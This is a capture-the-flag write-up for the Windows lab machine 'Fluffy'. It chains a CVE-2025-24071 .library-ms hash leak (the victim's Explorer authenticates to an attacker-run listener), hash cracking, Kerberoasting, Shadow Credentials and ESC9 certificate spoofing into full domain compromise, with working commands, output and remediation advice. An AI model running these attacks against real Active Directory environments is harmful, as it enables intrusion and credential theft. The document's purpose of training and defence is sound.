





|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Release Date**|2025-05-24|
|**State**|Retired|
|**IP**|10.129.232.88|
|**Techniques**|CVE-2025-24071 NTLM hash leak, NetNTLMv2 cracking, Kerberoasting, BloodHound ACL abuse, Shadow Credentials attack, AD CS ESC9 (UPN spoofing / weak certificate mapping)|
|**Tags**|#ad #windows #privesc #adcs #ntlm #kerberos|

> **Note:** The machine's IP address changes across sections of this writeup due to restarts (`10.129.232.88`, `10.129.131.175`).

---
## Summary

Fluffy is an easy Windows machine built around Active Directory and Active Directory Certificate Services (AD CS). Starting credentials for `j.fleischman` are provided.
Enumeration of the `IT` SMB share discloses a PDF that lists recent CVEs affecting the environment, including **CVE-2025-24071**, a Windows Explorer spoofing flaw that leaks NTLM authentication material when a `.library-ms` file is extracted from a downloaded archive.
Using this vulnerability against the `IT` share tricks a user into leaking `p.agila`'s NetNTLMv2 hash, which is cracked offline to recover his password. BloodHound reveals `p.agila` is a member of `Service Account Managers`, which holds `GenericAll` over the `Service Accounts` group; adding `p.agila` to that group grants `GenericWrite` over three service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`). This ACL is used to perform a **Shadow Credentials** attack against each account, recovering their NT hashes and enabling WinRM login as `winrm_svc` for the user flag. Privilege escalation abuses `ca_svc`'s own `GenericWrite` (over itself) to temporarily change its `userPrincipalName` to `Administrator@fluffy.htb`, then request a client-authentication certificate from the vulnerable `User` template on the AD CS server. The resulting certificate authenticates as the domain `Administrator`, and PKINIT authentication discloses the `Administrator` NT hash directly, completing the domain compromise.

---

## Enumeration

Starting credentials:

```
j.fleischman : J0elTHEM4n1990!
```
### Nmap Scan

```
nmap -sC -sV fluffy.htb --open
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-12 11:52 EDT
Nmap scan report for fluffy.htb (10.129.232.88)
Host is up (0.030s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-12 22:52:57Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-09-12T22:53:41
|_  start_date: N/A
|_clock-skew: mean: 7h00m01s, deviation: 0s, median: 7h00m01s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 93.10 seconds
```

The scan discloses the standard AD service set (DNS, Kerberos, LDAP/LDAPS, SMB, RPC) plus WinRM on port 5985. The hostname `DC01` and the `fluffy.htb` LDAP domain confirm the target is a domain controller.
### SMB Enumeration

Enumerating shares with the provided credentials:

```
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions     Remark
SMB         10.129.232.88   445    DC01             -----           -----------     ------
SMB         10.129.232.88   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.88   445    DC01             C$                              Default share
SMB         10.129.232.88   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.88   445    DC01             IT              READ,WRITE
SMB         10.129.232.88   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.232.88   445    DC01             SYSVOL          READ            Logon server share
```

`j.fleischman` has **read/write** access to a non-default `IT` share, which is both a source of information and, as shown below, an upload point that can be turned into an attack vector.

```
smbclient -U j.fleischman //fluffy.htb/IT --password='J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Sep 12 18:57:28 2026
  ..                                  D        0  Sat Sep 12 18:57:28 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025
```

The share hosts IT tooling installers (`Everything`, `KeePass`) alongside an `Upgrade_Notice.pdf`. 

### Domain User Enumeration

```
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --users
SMB         10.129.232.88   445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.232.88   445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain
SMB         10.129.232.88   445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.232.88   445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account
SMB         10.129.232.88   445    DC01             ca_svc                        2025-04-17 16:07:50 0
SMB         10.129.232.88   445    DC01             ldap_svc                      2025-04-17 16:17:00 0
SMB         10.129.232.88   445    DC01             p.agila                       2025-04-18 14:37:08 0
SMB         10.129.232.88   445    DC01             winrm_svc                     2025-05-18 00:51:16 0
SMB         10.129.232.88   445    DC01             j.coffey                      2025-04-19 12:09:55 0
SMB         10.129.232.88   445    DC01             j.fleischman                  2025-05-16 14:46:55 0
SMB         10.129.232.88   445    DC01             [*] Enumerated 9 local users: FLUFFY
```

`ca_svc` (naming convention for a certificate-authority service account) hints at AD CS being present in the environment, which is confirmed later during Kerberoasting.

### BloodHound Collection

```
sudo bloodhound-python -u 'j.fleischman' -p 'J0elTHEM4n1990!' -ns 10.129.232.88 -d fluffy.htb -c all --zip
```

```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Found 1 computers
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Compressing output into 20260912120218_bloodhound.zip
```

The collected data is ingested into BloodHound for later analysis of ACL abuse paths once initial access as a domain user is obtained.

### Upgrade Notice Disclosure

Opening `Upgrade_Notice.pdf` from the `IT` share reveals internal patch-management instructions and, more importantly, a table of recently disclosed CVEs relevant to this environment:



**CVE-2025-24071** stands out as immediately actionable: it requires no code execution and no additional service, just SMB write access which is already available via the `IT` share.

---
## CVE-2025-24071 — Windows Explorer `.library-ms` NTLM Hash Disclosure

### Vulnerability

CVE-2025-24071 is a spoofing vulnerability in Windows File Explorer. A `.library-ms` file is a legitimate Windows "Library" definition that can reference a remote folder (e.g. via UNC path or WebDAV) as one of its storage locations. Normally, opening a Library only queries the remote path when a user explicitly browses into it. The vulnerability is that **extracting** a specially crafted `.library-ms` file from a ZIP archive using Windows Explorer is enough to make Explorer resolve and connect to the attacker-specified remote path  with no user interaction (no double-click, no folder open) required. Since the referenced path is an SMB share under the attacker's control, Windows automatically attempts NTLM authentication against it, leaking the extracting user's NetNTLMv2 hash to a listener such as Responder.

Because the only prerequisite is that a victim downloads and extracts a ZIP file, this is a practical vector against any file share that IT staff routinely browse and download content from.

### Exploitation

A public PoC generates the malicious `.library-ms` file, packages it as a ZIP, and can optionally start a listener:

```
python3 52310.py -i 10.10.15.80 -n payload1 -o ./output_folder --keep
[*] Generating malicious .library-ms file...
[+] Created ZIP: output_folder/payload1.zip
[!] Done. Send ZIP to victim and listen for NTLM hash on your SMB server.
```

```
ls -la output_folder
-rw-rw-r-- 1 kali kali  364 payload1.library-ms
-rw-rw-r-- 1 kali kali  323 payload1.zip
```

The crafted `.library-ms` file references `\\10.10.15.80\...` as one of its library locations. The archive is uploaded to the writable `IT` share, where an internal user (simulated by the box) is expected to download and extract it:

```
smbclient -U j.fleischman //fluffy.htb/IT --password='J0elTHEM4n1990!'
smb: \> put payload1.zip
putting file payload1.zip as \payload1.zip (3.3 kB/s) (average 3.3 kB/s)
```

A listener is started to capture the resulting NTLM authentication attempt:

```
sudo responder -I tun0
...
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:1bf2912eebf812e0:7B8D5180B66A4EF29E90AF01261631BE:0101...
```

Once the ZIP is extracted on the victim's machine, Explorer's handling of the embedded `.library-ms` file forces an outbound SMB connection back to the attacker, disclosing `p.agila`'s NetNTLMv2 hash.

### Cracking the Hash

```
hashcat -m 5600 p.agila.hash /usr/share/wordlists/rockyou.txt
...
P.AGILA::FLUFFY:1bf2912eebf812e0:...:prometheusx-303

Status...........: Cracked
```

Credentials recovered: `p.agila:prometheusx-303`

---

## Lateral Movement

### Kerberoasting Attempt

With a second set of credentials, Kerberoastable service accounts are enumerated:

```
sudo ntpdate -b 10.129.232.88   # fix clock skew before any Kerberos operation
```

```
GetUserSPNs.py -dc-ip 10.129.232.88 fluffy.htb/p.agila:prometheusx-303 -request
```

```
ServicePrincipalName    Name       MemberOf                                       PasswordLastSet             LastLogon
----------------------  ---------  ---------------------------------------------  --------------------------  --------------------------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 12:07:50.136701  2025-05-21 18:21:15.969274
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 12:17:00.599545  <never>
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-05-17 20:51:16.786913  2025-05-19 11:13:22.188468
```

The SPN for `ca_svc` (`ADCS/ca.fluffy.htb`) confirms an **Active Directory Certificate Services** deployment on the domain, which becomes the key to privilege escalation later. All three TGS tickets are captured and attempted against `rockyou.txt`, but none of the hashes crack as the service accounts use strong, non-dictionary passwords.

### BloodHound — ACL Abuse via `Service Account Managers`

Reviewing `p.agila`'s outbound group memberships and permissions in BloodHound shows the account belongs to `Service Account Managers`:



`Service Account Managers` hold a **`GenericAll`** ACE over the `Service Accounts` group itself:



`GenericAll` over a group object grants full control of its membership, meaning any member of `Service Account Managers` (i.e. `p.agila`) can add or remove arbitrary principals from `Service Accounts` at will, including adding themselves.

The `Service Accounts` group, in turn, holds **`GenericWrite`** over each of the three service accounts identified via Kerberoasting (`ca_svc`, `ldap_svc`, `winrm_svc`):




`GenericWrite` over a user object allows writing to most of its non-protected attributes including `msDS-KeyCredentialLink`, the attribute that stores an account's alternate (certificate-based) credentials. This is the attribute abused by the **Shadow Credentials** attack.

### Joining the `Service Accounts` Group

`p.agila` can use its `GenericAll` over the group (inherited via `Service Account Managers` membership) to add itself directly:

```
net rpc group addmem "Service Accounts" "p.agila" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S 10.129.232.88
```



`p.agila` is now a member of `Service Accounts` and inherits `GenericWrite` over `ca_svc`, `ldap_svc`, and `winrm_svc`.

### Shadow Credentials Attack

**Shadow Credentials** abuses `GenericWrite`/`AddKeyCredentialLink`-class rights over a user or computer object to add an attacker-controlled certificate to that object's `msDS-KeyCredentialLink` attribute. Introduced with Windows Hello for Business, this attribute lets an account authenticate via **PKINIT** (Kerberos public-key pre-authentication) using a certificate instead of a password. Because writing this attribute doesn't require knowing the target's existing password, and because the KDC will issue a TGT to anyone presenting a certificate linked in `msDS-KeyCredentialLink`, an attacker with only `GenericWrite` can:

1. Generate a self-signed certificate and craft a matching Key Credential structure.
2. Add it to the target's `msDS-KeyCredentialLink`.
3. Authenticate as the target via PKINIT using the certificate to obtain a TGT.
4. Use the **U2U (User-to-User)** Kerberos extension to retrieve the target's NT hash from the encrypted PAC of a self-referential service ticket, then remove the injected credential to avoid detection.

`certipy`'s `shadow auto` command automates this entire chain:

```
certipy-ad shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb
...
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

```
certipy-ad shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account ca_svc -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb
...
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

```
certipy-ad shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account ldap_svc -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb
...
[*] NT hash for 'ldap_svc': 22151d74ba3de931a352cba1f9393a37
```

All three service-account NT hashes are recovered.

### WinRM Access as `winrm_svc`

`winrm_svc`'s membership in `Remote Management Users` makes its recovered hash usable for WinRM:

```
evil-winrm -i 10.129.131.175 -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

## User Flag

```
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
684fe29e00f2932163aa6631db4b9d50
```

---

## Privilege Escalation

### Enumeration

`ca_svc`'s SPN (`ADCS/ca.fluffy.htb`) already flagged the presence of an AD CS Certification Authority earlier. Since `ca_svc` is itself a member of `Service Accounts`, and `Service Accounts` holds `GenericWrite` over its own members, `ca_svc` effectively has `GenericWrite` over **itself** and this allows to let the account modify its own `userPrincipalName` (UPN) attribute.


### AD CS ESC9 — Weak Certificate Mapping via UPN Spoofing

Modern Windows domain controllers map a client certificate to an AD account using the certificate's SAN (Subject Alternative Name), typically the UPN embedded when the certificate was requested. **ESC9** describes a family of AD CS misconfigurations where a certificate template does not enforce strong certificate mapping. In that situation, the UPN embedded in the issued certificate is what the KDC/DC ultimately trusts for identity mapping.

Since `userPrincipalName` is a writable, self-service-style attribute and `ca_svc` can write to its own object, the attack is:

1. Temporarily set `ca_svc`'s UPN to `Administrator@fluffy.htb`.
2. Request a certificate from a client-authentication-capable template (here, the built-in `User` template, which any domain user can enroll for) while authenticated as `ca_svc`. The issued certificate's SAN now reads `Administrator@fluffy.htb`, since that's what the account's UPN was set to at request time.
3. Restore `ca_svc`'s original UPN immediately, to avoid breaking its normal function and to reduce the chance of detection.
4. Authenticate to the KDC using the certificate (PKINIT). Because the certificate's UPN says `Administrator@fluffy.htb`, and no strong SID-binding check invalidates the mismatch between the certificate and `ca_svc`'s real object, the KDC issues a TGT as the domain Administrator.

### Exploitation

Changing `ca_svc`'s UPN to impersonate `Administrator`:

```
certipy-ad account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn Administrator@fluffy.htb -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb
[*] Updating user 'ca_svc':
    userPrincipalName                   : Administrator@fluffy.htb
[*] Successfully updated 'ca_svc'
```

Requesting a certificate as `ca_svc` (now UPN-spoofed as `Administrator`) from the `User` template:

```
certipy-ad req -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb -ca fluffy-DC01-CA -template User
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@fluffy.htb'
[*] Saving certificate and private key to 'administrator.pfx'
```

Restoring `ca_svc`'s original UPN to leave the environment (and the account's normal Kerberoastable behavior) intact:

```
certipy-ad account update -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn ca_svc@fluffy.htb -dc-ip 10.129.131.175 -dc-host DC01.fluffy.htb
[*] Successfully updated 'ca_svc'
```

Authenticating with the forged certificate via PKINIT to retrieve the `Administrator` NT hash:

```
certipy-ad auth -pfx administrator.pfx -username Administrator -domain fluffy.htb -dc-ip 10.129.131.175
[*] Certificate identities:
[*]     SAN UPN: 'Administrator@fluffy.htb'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

The certificate is accepted by the KDC as proof of the `Administrator` identity, and PKINIT authentication discloses the domain Administrator's NT hash directly.

### Administrator Access

```
evil-winrm -i fluffy.htb -u 'Administrator' -H 8da83a3fa618b6e3a00e93f676c92a6e
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

---
## Root Flag

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
608919be33108b9168a732c18f4eb014
```

---

## Remediation

- **CVE-2025-24071 (`.library-ms` NTLM disclosure):** Apply Microsoft's May 2025 security update, which corrects Explorer's eager resolution of Library file remote references. As a defense in depth measure, block outbound SMB (445/139) from workstations to untrusted networks, and enforce SMB signing plus NTLMv2-only / Extended Protection for Authentication domain-wide so captured hashes cannot be relayed or trivially reused.
- **Writable, browsable file shares:** Restrict write access on shares like `IT` to a small set of trusted publishers, and treat any share that ordinary staff routinely download from as a potential delivery vector for client-side exploits.
- **`GenericAll`/`GenericWrite` delegation on groups and service accounts:** `Service Account Managers` should never have been granted blanket `GenericAll` over the `Service Accounts` group, and that group should not hold `GenericWrite` over its own members (including `ca_svc`). Audit ACLs regularly with BloodHound and remove any delegation that allows a low-privileged operator to escalate to service-account or self-referential control.
- **Shadow Credentials (`msDS-KeyCredentialLink` abuse):** Monitor and alert on writes to `msDS-KeyCredentialLink` for all accounts (Event ID 5136 on that attribute), especially for privileged or service accounts. Restrict `GenericWrite`/`WriteProperty` delegation to only the attributes actually required for a given administrative task rather than granting full object control.
- **AD CS ESC9 (weak certificate mapping):** Enable `StrongCertificateBindingEnforcement` on all domain controllers and set `CT_FLAG_NO_SECURITY_EXTENSION`-free, SID-bound issuance policies on every certificate template. Audit all templates with the `certipy find`/`Certify.exe find /vulnerable` tooling for ESC1–ESC16-class misconfigurations, and restrict who can modify their own `userPrincipalName` attribute, particularly for accounts with certificate-enrollment rights.
- **Self-service UPN modification on privileged/service accounts:** A certificate-authority service account should not be able to freely rewrite its own `userPrincipalName`. Remove self-write rights on identity-mapping attributes (`userPrincipalName`, `sAMAccountName`) for accounts that also hold certificate-enrollment privileges, since the combination is what enables the UPN-spoofing certificate request.

---
## References

- [CVE-2025-24071 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24071)
- [CVE-2025-24071 PoC (Exploit-DB 52310)](https://www.exploit-db.com/exploits/52310)
- [SpecterOps — Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [SpecterOps — Certified Pre-Owned (AD CS attack primitives, ESC1–ESC9+)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Certipy — AD CS Abuse Tooling](https://github.com/ly4k/Certipy)
- [BloodHound Community Edition](https://github.com/SpecterOps/BloodHound)
- [Microsoft Learn — PKINIT and Certificate Mapping (StrongCertificateBindingEnforcement)](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/kb5014754-certificate-based-authentication-changes)